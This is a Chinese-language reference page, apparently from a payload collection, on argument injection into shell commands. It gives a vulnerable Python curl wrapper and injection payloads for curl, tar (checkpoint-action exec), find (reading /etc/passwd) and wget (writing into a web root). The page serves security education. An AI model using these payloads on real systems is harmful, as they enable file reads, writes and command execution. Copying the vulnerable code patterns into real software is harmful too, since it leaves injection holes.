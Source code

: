 # Argument Injection - 参数注入

参数注入类似于命令注入，被污染的数据没有进行适当的清理/转义，而被传递到 shell 中执行。 

参数注入可能发生在不同的情况下，但只能将参数注入到命令中： 

- 不当的数据清理（正则表达式） 
- 将参数注入固定命令（PHP：escapeshellcmd，Python：Popen） 
- Bash 扩展（例如：*）

在以下示例中，python 脚本从命令行获取输入以生成 `curl` 命令：

```python
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```

攻击者可能会传递几个单词来对 `curl` 命令中的选项进行利用：

```python
python python_rce.py "https://www.google.fr -o test.py" 
```

通过打印命令，我们可以看到，所有参数都被拆分，允许注入一个参数，并将响应保存在任意文件中。

```
['curl', 'https://www.google.fr', '-o', 'test.py']
```

## Summary - 总结

  - [List of exposed commands - 命令列表](#list-of-exposed-commands---命令列表)
    - [CURL](#curl)
    - [TAR](#tar)
    - [FIND](#find)
    - [WGET](#wget)
  - [References](#references)

## List of exposed commands - 命令列表

### CURL

可以通过以下选项对 `curl`命令进行利用：

```
 -o, --output <file>        写入文件，而不是标准输出
 -O, --remote-name          写入文件，文件名为远程文件名
```

如果命令中已经有一个选项，则可以注入多个要下载的 URL 和几个输出选项。每个选项将依次影响每个 URL。

### TAR

对于 `tar` 命令，可以在不同的命令中注入任意参数。 

参数注入可以发生在 '''extract''' 命令中：

```
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

或在 '''create''' 命令中:

```
-I=<program> or -I <program>
--use-compres-program=<program>
```

还有一些较短的选项，可以没有空格：

```
-T<file>
-I"/path/to/exec"
```

### FIND

在 /tmp目录下找一些文件：

```
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

打印 /etc/passwd 内容：

```
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET

漏洞代码示例：

```
system(escapeshellcmd('wget '.$url));
```

任意文件写入：

```
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```

## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek, Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)